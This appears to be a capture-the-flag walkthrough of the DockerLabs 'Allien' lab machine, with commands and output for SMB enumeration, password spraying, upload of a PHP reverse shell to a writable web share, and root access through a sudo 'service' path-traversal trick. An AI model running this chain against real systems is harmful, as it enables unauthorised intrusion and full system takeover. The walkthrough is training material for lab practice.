


# Allien

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| Allien | Luisillo_o | easy | dockerlabs |

**Summary:** The Allien machine presents a multi-stage attack scenario beginning with SMB enumeration that exposes an anonymous share containing a JWT token. Decoding this token reveals an embedded RSA public key and an email address belonging to the user `satriani7`. Through further SMB enumeration, multiple system users are discovered, and password spraying against the SMB service successfully authenticates as `satriani7` using the password `50cent`. Once authenticated to SMB, the attacker navigates through the file shares to discover a `credentials.txt` file containing plaintext credentials for ten users including an `administrador` account. Using the administrator's SMB credentials, write access is obtained to a production web directory mapped to the Apache service. A PHP reverse shell is uploaded through the SMB share, triggered via HTTP request, and results in a low-privilege `www-data` shell on the target container. Privilege escalation is achieved by exploiting a sudo misconfiguration that permits `www-data` to execute the `/usr/sbin/service` binary without a password. By exploiting the path traversal capability in the service command, the attacker invokes `/bin/sh` through a relative path, gaining a root shell and complete control over the system.

---

## Reconnaissance and Service Discovery

The engagement begins with deploying the vulnerable Docker container using the provided auto-deployment script. The machine is assigned the IP address **172.17.0.2**, which becomes the primary target for all subsequent operations.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[~/dockerlabs/allien]
└─$ sudo bash auto_deploy.sh allien.tar

                            ##        .
                      ## ## ##       ==
                   ## ## ## ##      ===
               /""""""""""""""""\___/ ===
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/
                 \    \        __/
                  \____\______/

  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____
  |  \ |  | |    |_/  |___ |__| |    |__| |__] [__
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]


Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

To establish an initial understanding of the attack surface, environment variables are configured for efficient command execution throughout the assessment.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/allien]
└─$ ip=172.17.0.2 && url=http://$ip
```

### Port Scanning and Service Enumeration

A comprehensive Nmap scan is executed to identify all open ports and enumerate service versions running on the target system. The scan reveals four accessible services.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/allien]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-25 12:14 WIB
Nmap scan report for 172.17.0.2
Host is up (0.0000090s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 43:a1:09:2d:be:05:58:1b:01:20:d7:d0:d8:0d:7b:a6 (ECDSA)
|_  256 cd:98:0b:8a:0b:f9:f5:43:e4:44:5d:33:2f:08:2e:ce (ED25519)
80/tcp  open  http        Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Login
|_http-server-header: Apache/2.4.58 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2026-03-25T05:14:28
|_  start_date: N/A
|_nbstat: NetBIOS name: SAMBASERVER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.92 seconds
```

The scan identifies the following services:

1. **Port 22/TCP**: OpenSSH 9.6p1 running on Ubuntu, providing SSH access to the system.
2. **Port 80/TCP**: Apache httpd 2.4.58 hosting a web application with a login page.
3. **Port 139/TCP and 445/TCP**: Samba file sharing service configured with SMBv2 protocol, identifying itself as "SAMBASERVER" with message signing enabled but not required.

The presence of multiple Samba shares and a web application suggests multiple potential attack vectors worthy of investigation.

---

## Initial Access: SMB Share Enumeration

### Anonymous Share Discovery

The first logical step is to enumerate the available SMB shares without authentication. Using `smbclient` with the null session flag, the attacker discovers four shared directories.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/allien]
└─$ smbclient -L //$ip -N
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        myshare         Disk      Carpeta compartida sin restricciones
        backup24        Disk      Privado
        home            Disk      Produccion
        IPC$            IPC       IPC Service (EseEmeB Samba Server)
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 172.17.0.2 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
```

The share `myshare` is particularly interesting, as its comment indicates it is an unrestricted shared folder ("Carpeta compartida sin restricciones"). This suggests anonymous read access may be permitted.

### JWT Token Discovery

Connecting to the `myshare` directory anonymously confirms read access and reveals a single file named `access.txt`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/allien]
└─$ smbclient //$ip/myshare -N
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct  7 05:26:40 2024
  ..                                  D        0  Mon Oct  7 05:26:40 2024
  access.txt                          N      956  Sun Oct  6 13:46:26 2024

                1055762868 blocks of size 1024. 966191224 blocks available
smb: \> get access.txt
getting file \access.txt of size 956 as access.txt (116.7 KiloBytes/sec) (average 116.7 KiloBytes/sec)
smb: \> exit
```

The file is successfully downloaded and inspected locally. The contents reveal a lengthy base64-encoded string.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/allien]
└─$ cat access.txt
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InNhdHJpYW5pN0Blc2VlbWViLmRsIiwicm9sZSI6InVzZXIiLCJpYXQiOjE3MjgxNjAzNzMsImV4cCI6MTcyODE2Mzk3MywiandrIjp7Imt0eSI6IlJTQSIsIm4iOiI2MzU4NTI5OTgwNzk4MDM4NzI2MjQyMzYxMjc2NTg2NjE3MzU1MzUyMTMxNjU0ODI2NDI1ODg4NDkzNTU1NDYxNTIyNTc1NTAwNjY0ODY2MDM4OTY4ODMwNTk4OTY0NjUxOTQ2NDEzMzU4OTI1MzU2OTM4MDQwMTE1MjQzMDg4MTg0NTg1MzQxMzY5NTQyNTgxNTQwOTc3MjMzMjU0MTQxNzQ5NzczNDQyODkwNjc3ODY2MjI3NzUyMzEzMzg2OTk1NzA1ODAxNzM0NjA2NDE1NjkyNTM5MjAyNzc5OTczMjczODgyNTc1NTUwMTIwMDc4NjUzNDc0MTU1MjMyMjkwMDAxNjM4NTIwMTExNTUyNjE1NDkwMjQyOTYyMDA4MjYxNDI4NzA0MjAxNjcwOTg0NDUyMjY1NzcwNyIsImUiOjY1NTM3fX0.bQhS5qLCv5bf3sy-oHS7ZGcqqjk3LqyJ5bv-Jw6DIIoSIkmBtiocq07F7joOeKRxS3roWdHEuZUMeHQfWTHwRH7pHqCIBVJObdvHI8WR_Gac_MPYvwd6aSAoNExSlZft1-hXJUWbUIZ683JqEg06VYIap0Durih2rUio4Bdzv68JIo_3M8JFMV6kQTHnM3CElKy-UdorMbTxMQdUGKLk_4C7_FLwrGQse1f_iGO2MTzxvGtebQhERv-bluUYGU3Dq7aJCNU_hBL68EHDUs0mNSPF-f_FRtdENILwF4U14PSJiZBS3e5634i9HTmzRhvCGAqY00isCJoEXC1smrEZpg
```

### JWT Token Analysis

The structure of this data indicates it is a JSON Web Token (JWT), identifiable by its three distinct sections separated by periods. Decoding this JWT through CyberChef or similar tools reveals valuable intelligence embedded within the payload.



The decoded payload contains:

* **Email address**: `satriani7@eseemeb.dl`
* **Role**: `user`
* **Issued at (iat)**: 1728160373
* **Expiration (exp)**: 1728163973
* **JWK (JSON Web Key)**: An RSA public key with modulus `n` and exponent `e` values

This JWT reveals that a user with the identifier `satriani7` exists within the system. The presence of the email domain `eseemeb.dl` and the embedded RSA key suggest this token is used for authentication purposes, though it has long since expired. More critically, the username `satriani7` becomes a new target for credential-based attacks.

---

## User Enumeration and Credential Discovery

### SMB User Enumeration

To expand the list of valid usernames beyond `satriani7`, the CrackMapExec tool is employed to enumerate domain users through the SMB service.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/allien]
└─$ crackmapexec smb $ip --users
SMB         172.17.0.2      445    SAMBASERVER      [*] Windows 6.1 Build 0 (name:SAMBASERVER) (domain:SAMBASERVER) (signing:False) (SMBv1:False)
SMB         172.17.0.2      445    SAMBASERVER      [-] Error enumerating domain users using dc ip 172.17.0.2: socket connection error while opening: [Errno 111] Connection refused
SMB         172.17.0.2      445    SAMBASERVER      [*] Trying with SAMRPC protocol
SMB         172.17.0.2      445    SAMBASERVER      [+] Enumerated domain user(s)
SMB         172.17.0.2      445    SAMBASERVER      SAMBASERVER\usuario1
SMB         172.17.0.2      445    SAMBASERVER      SAMBASERVER\usuario3
SMB         172.17.0.2      445    SAMBASERVER      SAMBASERVER\administrador
SMB         172.17.0.2      445    SAMBASERVER      SAMBASERVER\usuario2
SMB         172.17.0.2      445    SAMBASERVER      SAMBASERVER\satriani7
SMB         172.17.0.2      445    SAMBASERVER      [+] Enumerated domain user(s)
SMB         172.17.0.2      445    SAMBASERVER      SAMBASERVER\usuario1
SMB         172.17.0.2      445    SAMBASERVER      SAMBASERVER\usuario3
SMB         172.17.0.2      445    SAMBASERVER      SAMBASERVER\administrador
SMB         172.17.0.2      445    SAMBASERVER      SAMBASERVER\usuario2
SMB         172.17.0.2      445    SAMBASERVER      SAMBASERVER\satriani7
```

The enumeration reveals five valid users on the SAMBASERVER domain: `usuario1`, `usuario2`, `usuario3`, `administrador`, and `satriani7`. The presence of an `administrador` account is particularly noteworthy as it likely holds elevated privileges.

### Password Spraying Attack

With a valid username (`satriani7`) and a list of users, the next phase involves attempting to authenticate via SMB using a common password list. CrackMapExec is leveraged to perform a password spraying attack against the `satriani7` account using the popular `rockyou.txt` wordlist.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/allien]
└─$ crackmapexec smb $ip -u satriani7 -p /usr/share/wordlists/rockyou.txt | grep '[+]'
SMB         172.17.0.2      445    SAMBASERVER      [+] SAMBASERVER\satriani7:50cent
```

Success is achieved almost immediately. The credentials `satriani7:50cent` are validated against the SMB service, granting authenticated access to additional shares that were previously inaccessible.

### Credential File Extraction

Authenticated as `satriani7`, the attacker explores the available SMB shares for sensitive information. Navigating through the file structure leads to a directory path `\Documents\Personal\` within one of the accessible shares, where a file named `credentials.txt` is discovered.

```bash
smb: \Documents\Personal\> get credentials.txt
getting file \Documents\Personal\credentials.txt of size 902 as credentials.txt (110.1 KiloBytes/sec) (average 68.9 KiloBytes/sec)
```

This file is downloaded and examined. Its contents contain a catastrophic security failure: plaintext credentials for ten different users, including the `administrador` account.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/allien]
└─$ cat credentials.txt
# Archivo de credenciales

Este documento expone credenciales de usuarios, incluyendo la del usuario administrador.

Usuarios:
-------------------------------------------------
1. Usuario: jsmith
   - Contraseña: PassJsmith2024!

2. Usuario: abrown
   - Contraseña: PassAbrown2024!

3. Usuario: lgarcia
   - Contraseña: PassLgarcia2024!

4. Usuario: kchen
   - Contraseña: PassKchen2024!

5. Usuario: tjohnson
   - Contraseña: PassTjohnson2024!

6. Usuario: emiller
   - Contraseña: PassEmiller2024!

7. Usuario: administrador
    - Contraseña: Adm1nP4ss2024

8. Usuario: dwhite
   - Contraseña: PassDwhite2024!

9. Usuario: nlewis
   - Contraseña: PassNlewis2024!

10. Usuario: srodriguez
    - Contraseña: PassSrodriguez2024!


# Notas:
- Mantener estas credenciales en un lugar seguro.
- Cambiar las contraseñas periódicamente.
- No compartir estas credenciales sin autorización.
```

The most critical finding here is the `administrador` account with the password `Adm1nP4ss2024`. This credential pair represents a significant privilege escalation opportunity, as administrative accounts typically have elevated access to system resources.

---

## Exploitation: Web Shell Upload via SMB

### Testing Write Access

With the `administrador` credentials in hand, the attacker reconnects to the SMB service to explore shares with write permissions. The `home` share, which had a comment indicating "Produccion" (production), becomes the focus.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/allien]
└─$ smbclient //$ip/home -U administrador
Password for [WORKGROUP\administrador]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct  7 06:40:09 2024
  ..                                  D        0  Mon Oct  7 06:40:09 2024
  info.php                            N       21  Sun Oct  6 14:32:50 2024
  productos.php                       N     5229  Sun Oct  6 16:21:48 2024
  styles.css                          N      263  Sun Oct  6 16:22:06 2024
  index.php                           N     3543  Mon Oct  7 03:28:45 2024
  back.png                            N   463383  Sun Oct  6 14:59:29 2024

                1055762868 blocks of size 1024. 966071892 blocks available
smb: \> put a.txt
putting file a.txt as \a.txt (0.0 kB/s) (average 0.0 kB/s)
smb: \> ls
  .                                   D        0  Wed Mar 25 12:50:26 2026
  ..                                  D        0  Wed Mar 25 12:50:26 2026
  info.php                            N       21  Sun Oct  6 14:32:50 2024
  a.txt                               A        0  Wed Mar 25 12:50:26 2026
  productos.php                       N     5229  Sun Oct  6 16:21:48 2024
  styles.css                          N      263  Sun Oct  6 16:22:06 2024
  index.php                           N     3543  Mon Oct  7 03:28:45 2024
  back.png                            N   463383  Sun Oct  6 14:59:29 2024

                1055762868 blocks of size 1024. 966071884 blocks available
```

The directory contains PHP files (`info.php`, `productos.php`, `index.php`) and supporting assets, strongly suggesting this share is mapped to the web root directory served by Apache on port 80. A test file `a.txt` is successfully uploaded, confirming write permissions.

### Reverse Shell Deployment

To weaponize this write access, a PHP reverse shell is prepared. The pentester-standard `php-reverse-shell.php` from `/usr/share/webshells/php/` is copied and modified to connect back to the attacker's machine.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/allien]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php .

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/allien]
└─$ vim php-reverse-shell.php
```

The IP address and port within the reverse shell script are configured to point to the attacker's listener. A Netcat listener is then started on port 4444 to catch the incoming connection.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/allien]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

The malicious PHP file is uploaded to the `home` share via SMB.

```bash
smb: \> put php-reverse-shell.php
putting file php-reverse-shell.php as \php-reverse-shell.php (536.6 kB/s) (average 214.6 kB/s)
```

Once uploaded, the attacker triggers the reverse shell by navigating to `http://172.17.0.2/php-reverse-shell.php` in a web browser. This executes the PHP script on the server, which establishes a reverse TCP connection back to the attacker's waiting Netcat listener.

```bash
connect to [172.21.44.133] from (UNKNOWN) [172.17.0.2] 35704
Linux f4a9fd6e0b0c 6.6.87.2-microsoft-standard-WSL2 #1 SMP PREEMPT_DYNAMIC Thu Jun  5 18:30:46 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 05:57:59 up 47 min,  0 user,  load average: 0.00, 0.02, 0.23
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@f4a9fd6e0b0c:/$ ^Z
zsh: suspended  nc -lvnp 4444
```

The connection is successfully established as the `www-data` user, confirming code execution. The shell is upgraded to a fully interactive TTY using Python's pty module, and then the session is backgrounded to configure the terminal properly.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/allien]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

www-data@f4a9fd6e0b0c:/$ export SHELL=/bin/bash
www-data@f4a9fd6e0b0c:/$ export TERM=xterm
www-data@f4a9fd6e0b0c:/$ stty rows 78 cols 168
```

At this stage, the attacker has achieved initial access with a stable, interactive shell as the low-privileged `www-data` user running within a Docker container identified by the hostname `f4a9fd6e0b0c`.

---

## Privilege Escalation: Sudo Service Exploitation

### Sudo Permission Analysis

The first step in privilege escalation is to identify what commands the current user (`www-data`) can execute with elevated privileges. The `sudo -l` command enumerates these permissions.

```bash
www-data@f4a9fd6e0b0c:/$ which sudo
/usr/bin/sudo
www-data@f4a9fd6e0b0c:/$ sudo -l
Matching Defaults entries for www-data on f4a9fd6e0b0c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on f4a9fd6e0b0c:
    (ALL) NOPASSWD: /usr/sbin/service
```

This output reveals a critical misconfiguration: the `www-data` user is permitted to execute `/usr/sbin/service` as root without providing a password (`NOPASSWD`). The `service` command is used to manage system services, but it also accepts arbitrary script paths and arguments, making it vulnerable to exploitation.

### Exploiting Service Command Path Traversal

The vulnerability lies in how the `service` command processes its arguments. When given a service name, it attempts to locate and execute the corresponding init script. However, it does not properly sanitize or restrict the paths provided as arguments. By using relative path traversal sequences (`../../`), an attacker can reference executables outside the expected service directories.

Consulting GTFOBins or similar resources confirms that this misconfiguration can be exploited to spawn a root shell by invoking `/bin/sh` through the service binary.



The exploitation is straightforward: by passing `../../bin/sh` as the argument to `sudo service`, the attacker tricks the service command into executing `/bin/sh` with root privileges.

```bash
www-data@f4a9fd6e0b0c:/$ sudo service ../../bin/sh
# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
f4a9fd6e0b0c
```

The command succeeds, dropping the attacker into a root shell. The `id`, `whoami`, and `hostname` commands confirm full root access with `uid=0`, `gid=0`, and the root username. The machine has been fully compromised.

---

## Attack Chain Summary

1. **Reconnaissance**: A comprehensive Nmap scan identifies four open services on the target, including SSH (22), HTTP (80), and SMB (139/445). The SMB service exposes multiple shares, including an anonymously accessible share named `myshare`.

2. **Vulnerability Discovery**: Anonymous access to the `myshare` SMB share reveals an `access.txt` file containing a JWT token. Decoding the token exposes the username `satriani7` and confirms the existence of an authentication mechanism. Further SMB user enumeration discovers additional accounts including `administrador`.

3. **Exploitation**: Password spraying with the `rockyou.txt` wordlist successfully authenticates as `satriani7` with the password `50cent`. Authenticated SMB access enables navigation to a `credentials.txt` file containing plaintext credentials for ten users, including the administrator account (`administrador:Adm1nP4ss2024`). Using these credentials, write access to the production web directory is gained via the `home` SMB share. A PHP reverse shell is uploaded and triggered through the Apache web server, resulting in a shell as the `www-data` user.

4. **Internal Enumeration**: Once inside the container as `www-data`, sudo permissions are checked using `sudo -l`. The output reveals that `www-data` can execute `/usr/sbin/service` as root without a password, presenting a clear privilege escalation path.

5. **Privilege Escalation**: The `service` binary is exploited by abusing path traversal to execute `/bin/sh` with root privileges. The command `sudo service ../../bin/sh` successfully escalates privileges, granting a root shell and complete control over the Docker container.

